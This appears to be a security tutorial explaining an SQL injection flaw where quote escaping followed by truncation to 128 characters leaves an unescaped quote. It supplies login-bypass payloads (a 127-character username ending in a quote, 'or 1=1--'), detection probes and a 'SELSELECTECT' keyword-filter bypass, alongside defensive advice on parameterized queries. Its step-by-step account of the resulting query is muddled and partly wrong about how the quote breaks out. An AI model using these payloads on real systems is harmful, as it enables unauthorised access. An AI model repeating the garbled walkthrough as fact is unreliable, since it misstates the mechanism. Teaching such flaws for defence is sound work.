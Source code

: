 ## 🧪 The Flawed Protection Logic

### ✅ Application’s SQLi protection logic (intended flow):

1. **Escape single quotes**: `'` → `''`
2. **Then truncate to 128 characters**

> But escaping can increase the string’s length.
> So if the result becomes **longer than 128**, truncation **chops off the end**, potentially leaving an **unescaped quote** dangling.

---

## 📘 The Login Query Format

Assuming the SQL query looks like this:

```sql
SELECT * FROM users 
WHERE username = '<USER_INPUT>' 
  AND password = '<PASSWORD_INPUT>'
```

That’s a classic vulnerable login structure.

---

## 💣 The Exploit Input

Let’s use **this username input**:

```sql
aaaaaaaa...aaaaa'       ← 127 'a's + a single quote
```

Let’s walk through what happens.

---

## 🧾 Step-by-Step Breakdown

### 🔹 Original input:

```plaintext
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
```

That’s **127 `a` characters + 1 `'`** = **128 total characters**

### 🔹 Step 1: Escaping applied

App doubles the single quote:

```plaintext
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa''
```

Now it’s **129 characters** because the `'` became `''`.

### 🔹 Step 2: Truncation to 128 characters

The app blindly chops off the extra character, so now it becomes:

```plaintext
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
```

→ That means the **second quote from the escape pair is gone**, turning `''` back into a **raw single quote `'`**.

> That’s the core issue: escaping was undone by truncation.

---

## 🧨 Now Add the Password Injection

Let’s say we input this as the **password**:

```sql
or 1=1--
```

### 🔹 The final query becomes:

```sql
SELECT * FROM users 
WHERE username = 'aaaaaaaa...aaaaa'' 
  AND password = 'or 1=1--'
```

But after escaping and truncation, username becomes:

```sql
'aaaaaaaa...aaaaa'    ← single unescaped quote ends early
```

So the resulting SQL becomes:

```sql
SELECT * FROM users 
WHERE username = 'aaaaaaaa...aaaaa' 
' AND password = 'or 1=1--'
```

That breaks the string context. The second single quote from the truncation **ends the username string** prematurely.

The rest of the query:

```sql
' AND password = 'or 1=1--'
```

...is now interpreted as **raw SQL**, not part of the `username` or `password` strings.

Thus:

```sql
password = 'or 1=1--'
```

This effectively becomes:

```sql
AND 'or 1=1--'
```

Depending on DB parsing, this can either:

* Cause syntax error (which can confirm vulnerability), or
* Be executed as logical bypass if the DB ignores the rest as a comment (after `--`).

---

### 🧠 Why This Works

The mistake? The **escaping happens first**, **then truncation**. So:

* Escaping makes safe input longer.
* Truncation can **cut off the escaping** and **reintroduce dangerous characters** into the query.

Think of it like this:

* Escape function: 🧹 → Clean things.
* Truncate function: ✂️ → Chop the head off... even the broom!

---

### ✅ Proper Way to Defend

If you were designing this:

* **Truncate before escaping**, not after.
* Better yet, **use parameterized queries** (prepared statements). Let the DB handle input safely.
* Never rely on manually escaping strings for SQL — it’s fragile and error-prone.

---

### 🔓 Other Real-World Scenarios

Same logic applies in:

* **XSS filtering**: If you escape HTML tags, then truncate, you might cut the escape and leave raw `<script>`.
* **Command injection**: Escaping dangerous shell characters, then truncating, can reopen the door for `;`, `&`, etc.

---

### 🔍 Detection Trick:

To test if truncation breaks escaping, try payloads like:

#### Payload A – Even number of quotes:

```
'''''''''''''''''''''''''''''''''''''''''''''''...
```

#### Payload B – Add `a` at start (odd number of quotes):

```
a''''''''''''''''''''''''''''''''''''''''''''''...
```

Observe:

* If **A** triggers an error and **B** doesn’t → escaping is probably fine.
* If **B** breaks things (e.g., throws SQL syntax error), truncation is likely messing up escaping.

---

## 🧪 Bonus Hack: Bypassing Keyword Filters

Suppose app strips `SELECT`. Try this:

```sql
SELSELECTECT
```

If filter removes inner "SELECT":

```
SELSELECTECT → SEL + [strip SELECT] + ECT → SELECT
```

🔥 You reconstructed the keyword from a filtered input.

---

### 🔐 Pro Tip for Red Teamers

Always think:

* **What is the order of operations?**
* **Can one security mechanism undo another?**
* **Are limits like length, encoding, or validation being used out of sync?**

---


## 🧠 Why Does This Work?

Because:

* The escaping made the quote safe (`'` → `''`)
* But truncation **cut that safety quote off**
* Which **invalidated the escaping**, reintroducing a lone quote
* And caused the input to *break out* of the original string context in SQL

---

## 🔒 Real-World Parallels

* This exact logic flaw has been spotted in:

  * **Old PHP/MySQL apps** using `addslashes()` + `substr()`
  * **Legacy Java apps** that do `input.replaceAll("'", "''")` before truncating
  * **Frontends doing JS validation, then backend PHP trimming** differently

---
